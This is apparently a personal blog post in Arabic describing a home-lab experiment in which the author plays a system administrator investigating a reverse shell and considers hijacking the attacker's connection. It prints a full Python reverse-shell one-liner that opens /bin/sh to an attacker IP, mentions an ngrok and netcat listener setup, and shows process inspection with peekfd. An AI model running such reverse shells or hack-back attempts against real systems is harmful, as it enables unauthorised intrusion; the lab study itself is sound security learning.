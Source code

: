 ```yaml
---
title: اتصال عكس عكسي؟
parent: Contributions
layout: home
---
```


بسم الله الرحمن الرحيم، قد جاء في بالي تساؤل، هل يمديك تَختَرِق المُختَرِق؟. يعني أنا لو شفت أن في أحد قاعد يتحكم في السيرفر حقي من خلال أنه يخلي السيرفر حقي يشبك على السيرفر حقه (reverse shell) هل يمديني أشبك على السيرفر حقه وأخليه يشبك على السيرفر حقي؟ يعني زي نظام بطتنا نطت فوق بطن بطتكم

# اتصال عكسي بسيط
أنا عندي الجهاز الافتراضي شغال على نظام debian راح يكون هو المهاجم، أما الجهاز حقي راح يكون هو الضحية (حاليًا). الآيبي حق جهازي (192.168.122.1) والآيبي حق المهاجم (192.168.122.120). راح أبدأ بطريقة بسيطة للحصول على اتصال عكسي عبر ngrok:
- ngrok tcp PORT & nc -lnvp PORT في جهاز المهاجم
- في جهازي راح أنفذ سكربت بايثون بسيط (نفترض أن سيرفري فيه ثغرة RCE)

![Attacker_commands](imgs/Screenshot%20From%202025-03-20%2000-39-20.png)
![Victim_commands](imgs/Screenshot%20From%202025-03-20%2000-41-16.png)
![Attacker_reverse_shell](imgs/Screenshot%20From%202025-03-20%2000-41-35.png)

طيب الآن خليني أشوف الهكرجي هذا إيش قاعد يسوي

```shell
ps axjf | grep python

3726    5089    3726    3726 ?             -1 Sl    1000   0:10  |   \_ /usr/bin/python /usr/bin/terminator
   6160   48148   48148    6160 pts/1      48148 S+    1000   0:00  |   |   |   \_ python -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.122.120",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
  41092   50617   50616   41092 pts/2      50616 S+    1000   0:00  |   |   |   \_ grep python
```
نلاحظ أن الآبي حقه ظاهر لنا في هذا الأمر (أنا قاعد ألعب دور مدير النظام، يعني قاعد أحقق في الموضوع) خلينا ناخذ الآيبي هذا ونشوف إيش وضعه. في حال ماحصلت الحمولة اللي رسلها المهاجم للسيرفر حقي أقدر أشوف حركة الشبكة

```bash
sudo netstat -tuenpa 
 
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      962        29003      3083/mongod         
tcp        0      0 127.0.0.1:5900          0.0.0.0:*               LISTEN      952        128807     40174/qemu-system-x 
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      0          20188      1321/dnsmasq        
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          574        902/sshd: /usr/bin/ 
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      0          25808      899/cupsd           
tcp        0      0 127.0.0.1:6463          0.0.0.0:*               LISTEN      1000       123829     39407/app.asar --no 
tcp        0      0 127.0.0.1:4000          0.0.0.0:*               LISTEN      1000       137728     43046/jekyll s      
tcp        0      0 10.19.103.9:44030       142.250.181.78:443      ESTABLISHED 1000       149199     6715/waterfox       
tcp        0      0 10.19.103.9:40252       34.107.243.93:443       ESTABLISHED 1000       137382     6715/waterfox       
tcp        0      0 10.19.103.9:49054       172.66.40.244:443       ESTABLISHED 1000       169110     6715/waterfox       
tcp        0      0 10.19.103.9:58910       162.159.134.234:443     ESTABLISHED 1000       148056     39289/discord --sta 
tcp        0      0 192.168.122.1:42560     192.168.122.120:4242    ESTABLISHED 1000       148709     48148/python     !!!!!!!!!   
tcp6       0      0 :::22                   :::*                    LISTEN      0          576        902/sshd: /usr/bin/ 
tcp6       0      0 ::1:631                 :::*                    LISTEN      0          25807      899/cupsd           
udp        0      0 192.168.122.1:53        0.0.0.0:*                           0          20187      1321/dnsmasq        
udp        0      0 0.0.0.0:67              0.0.0.0:*                           0          20184      1321/dnsmasq        
udp        0      0 10.19.103.9:68          10.13.168.19:67         ESTABLISHED 0          20286      804/NetworkManager 
```
حاولت أفحص المداخل على أمل إني أحصل مدخل مفتوح أقدر أشبك عليه (bind shell) لكن باءت التجربة بالفشل، خليني أشوف إيش قاعد يسوي. الأمر هذا أستخدمه في ال  ctf لأنه ممتع الصراحة، يخليك تشبك على الإتصال اللي أنت تحدده، في هذه الحالة رقم العملية 48148
```bash
peekfd -n -8 -c -d 48148
```
![me](imgs/Screenshot%20From%202025-03-20%2001-37-49.png)
![attacker](imgs/Screenshot%20From%202025-03-20%2001-37-58.png)
طبعا أنا ما أبغى أتفرج على المهاجم بس، أبغى أحاول أتحكم بالإتصال العكسي حقه!